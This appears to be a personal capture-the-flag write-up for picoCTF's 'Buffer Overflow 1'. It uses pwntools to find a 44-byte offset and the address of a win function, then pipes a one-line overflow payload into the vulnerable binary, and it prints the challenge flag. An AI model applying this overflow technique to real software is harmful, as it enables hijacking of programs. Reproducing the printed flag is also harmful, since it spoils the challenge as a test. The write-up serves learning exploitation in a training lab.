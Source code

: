 # Buffer Overflow 1

First we need to see if it is vulnerable to buffer overflows:

![[Pasted image 20220316194655.png]]

We can modify the address, we need to find a good offset

```
from pwn import *
print(f'Search for: {cyclic(100)}')
```

This returns 

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

When we input it we get

![[Pasted image 20220316194850.png]]

We make that address little endian and find the correct padding like:


```
from pwn import *
print(f'Padding: {cyclic_find(p32(0x6161616c))}')
```

This returns 44, so now that we know the padding we can find the address for the **win** function:

```
from pwn import *
vuln = ELF('./vuln')
print(p32(vuln.symbols['win']))
```

That returns the address "\xf6\x91\x04\x08" so finally we can run the payload like:

```
python2 -c "from pwn import *; print 'A' * 44 + '\xf6\x91\x04\x08'" | ./vuln
```

![[Pasted image 20220316195330.png]]

## Flag

> picoCTF{addr3ss3s_ar3_3asy_2e7003a1}